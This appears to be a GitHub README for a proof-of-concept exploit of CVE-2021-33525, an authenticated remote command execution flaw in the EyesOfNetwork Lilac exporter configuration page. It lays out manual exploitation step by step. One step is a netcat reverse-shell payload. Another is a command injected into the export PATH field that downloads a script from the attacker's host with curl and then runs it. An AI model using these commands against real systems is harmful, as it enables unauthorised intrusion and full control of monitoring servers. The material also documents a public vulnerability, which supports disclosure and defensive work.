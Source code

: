 # LilacPathVUln
CVE-2021-33525
```
###############################################
#              (Authentified)                 #
#         Remote Commande Execution           #
#               EyesOfNetwork                 #
#                                             #
#      Impacted version * =/>  5.3.11         #
#               ...........                   #
#                                             #
#         Scripted on 05/22/2021              #
#              By ArianeBlow                  #
#                                             #
###############################################
```

The Eyes Of Network Lilac exporter configuration page contain a Remote Commande Execution vulnerability. 

The PoC's working fine, (sometime you must have to lunch the script twice ... It's juste a PoC in BASH right !

Can be abused manually :

Create a bash script for payload (exemple : nc -e /bin/sh LHOST LPORT) and start an http server in the same directory.

Go on EyesOfNetwork Lilac exporter config page : https://RHOST/lilac/export.php.

Create a new config and modify the "PATH" (at the end of the webpage) and put the commande afetr the original line like that for exemple : 
```
/srv/eyesofnetwork/nagios/bin/nagios -v /tmp/lilac-export-33/nagios.cfg && curl http://LHOST:LPORT/test.sh -o /tmp/lilac-export-2/test.sh && chmod +x /tmp/lilac-export-2/test.sh && cd /tmp/lilac-export-2/ && ./test.sh
```
Start your listener and lunch the export config.
Voila !
